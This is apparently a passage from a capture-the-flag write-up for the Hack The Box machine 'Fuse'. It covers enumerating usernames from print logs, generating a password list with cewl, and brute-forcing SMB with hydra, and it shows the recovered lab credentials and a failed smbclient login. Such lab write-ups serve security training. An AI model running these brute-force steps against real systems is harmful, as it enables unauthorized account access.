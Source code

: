 I looked inside the logs files and found a bunch of users and created a list of them.

```
pmerton
tlavel
sthompson
bhult
administrator
```

Did a little more enumeration but didn't find anything. Thought that we if have a list of usernames lets try creating a list of passwords and try some good ol' brute force.

I use the tool cewl for this. Cewl is used to take a webpage as input and it spits out list of all possible passwords according to your customization.

```
./cewl.rb --with-numbers -w fuse.txt http://fuse.fabricorp.local/papercut/logs/html/papercut-print-log-2020-05-29.htm
```

You will get a file named fuse.txt and it will contain several hundred passwords. Next I use hydra to try some brute force on the SMB port.

```
hydra -L users -P fuse.txt smb://10.10.10.193 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 17:46:49
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 845 login tries (l:5/p:169), ~845 tries per task
[DATA] attacking smb://10.10.10.193:445/
[STATUS] 90.00 tries/min, 90 tries in 00:01h, 755 to do in 00:09h, 1 active
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[STATUS] 114.67 tries/min, 344 tries in 00:03h, 501 to do in 00:05h, 1 active
[445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
[STATUS] 111.14 tries/min, 778 tries in 00:07h, 67 to do in 00:01h, 1 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-27 17:54:40
```

Ayyy! We have a 2 valid login creds. But when I try logging in with tlavel user and the found password I face an error unseen before.

```
smbclient -L fuse.htb -U tlavel -c share
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
